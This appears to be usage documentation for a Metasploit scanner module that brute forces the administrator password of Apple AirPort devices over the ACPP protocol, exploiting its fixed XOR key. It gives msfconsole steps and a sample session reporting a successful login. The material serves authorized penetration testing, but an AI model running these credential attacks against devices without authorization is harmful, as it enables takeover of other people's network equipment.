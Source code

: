 ## Vulnerable Application

ACPP is an undocumented and proprietary Apple protocol found in Airport products which protects the credentials used to administer the device. This module attempts exploit a weak encryption mechanism (fixed XOR key) by brute forcing the password via a dictionary attack or specific password.

More information can be found on the Rapid7 Vulnerability & Exploit Database page (https://www.rapid7.com/db/modules/auxiliary/scanner/acpp/login)

## Verification Steps

  1. Start msfconsole
  2. Do: `use auxiliary/scanner/acpp/login`
  3. Do: `show actions`
        ...actions...
  4. Do: `set ACTION < action-name >`
  5. Do: `show options`
      ...show and set options...
  6. Do: `run`

## Scenarios

  ```
  msf > use auxiliary/scanner/acpp/login
  msf auxiliary(scanner/acpp/login) > show options
  msf auxiliary(scanner/acpp/login) > set RHOSTS 1.1.1.1
      RHOSTS => 1.1.1.1
  msf auxiliary(scanner/acpp/login) > set PASSWORD myPassword
      PASSWORD => myPassword
  msf auxiliary(scanner/acpp/login) > run
    [*] 1.1.1.1:5009          - 1.1.1.1:5009 - Starting ACPP login sweep
    [*] 1.1.1.1:5009          - ACPP Login Successful: myPassword
    [*] Auxiliary module execution completed
  ```
